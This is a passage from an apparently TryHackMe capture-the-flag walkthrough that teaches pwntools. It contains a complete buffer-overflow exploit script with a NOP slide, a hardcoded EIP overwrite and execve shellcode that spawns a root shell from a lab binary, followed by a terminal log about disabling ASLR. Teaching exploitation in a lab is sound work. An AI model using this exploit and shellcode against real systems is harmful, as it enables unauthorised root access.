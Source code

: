 When we run this command, we see it is the same as the linux.sh shellcode, except the added '-p' to the argv array. To write shellcode that is easier to use in our python exploit script, we can replace the "-f a" with "-f s", which will print our shellcode in string format. We can copy that and paste it into our exploit code (replacing the breakpoint instruction):

`shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"`  

Our code is almost done! Until this point, we have been printing our payload and manually inputting it into the executable. Like in the networking task, Pwntools allows us to interact with the program automatically. For a local process, we use the process() function.

`proc = process('./intro2pwnFinal')`

We can receive data from the process, and since the process sends data with a new line, we can use recvline(), rather than recvn().

`proc.recvline()`

After we have crafted our payload, we can send it with:

`proc.send(payload)`

Finally, after we have sent the payload, we need a way to communicate with the shell we have just spawned. We can do with with 

`proc.interactive()`

So, to recap, our whole python script is:

`from pwn import *`

`proc = process('./intro2pwnFinal')`

`proc.recvline()   `

`padding = cyclic(cyclic_find('taaa'))`

`eip = p32(0xffffd510+200)`

`nop_slide = "\x90"*1000   `

`shellcode = "jhh\x2f\x2f\x2fsh\x2fbin\x89\xe3jph\x01\x01\x01\x01\x814\x24ri\x01,1\xc9Qj\x07Y\x01\xe1Qj\x08Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80"`

`payload = padding + eip + nop_slide + shellcode`

`proc.send(payload)`

`proc.interactive()`

Alright, that was a lot! Take a deep breath and run our python code. If we did this right, we should get an interactive shell. The first command may not register, but the second one should work. If you received an "Got EOF while reading in interactive", then you have an error, and will need to troubleshoot. The people at the THM discord are [helpful](https://discord.com/channels/521382216299839518/522158539129618453), and I hang out there frequently myself. Please answer question 7.

Congratulations, you have a root shell! You will find the flag in the /root directory.  

Answer the questions below

```
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/networking$ cd ../shellcraft/
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ ls
disable_aslr.sh  intro2pwnFinal  note_to_buzz_2.txt  test_shellcraft.c
buzz@intro2pwn:~/IntroToPwntools/IntroToPwntools/shellcraft$ cat note_to_buzz_2.txt 
Dear buzz,

For this last pwntools challenge, you will need to disable ASLR.
I have provided a script for you to do so, which you can run as 
sudo without a password. Just run:

sudo ./disable_aslr.sh


```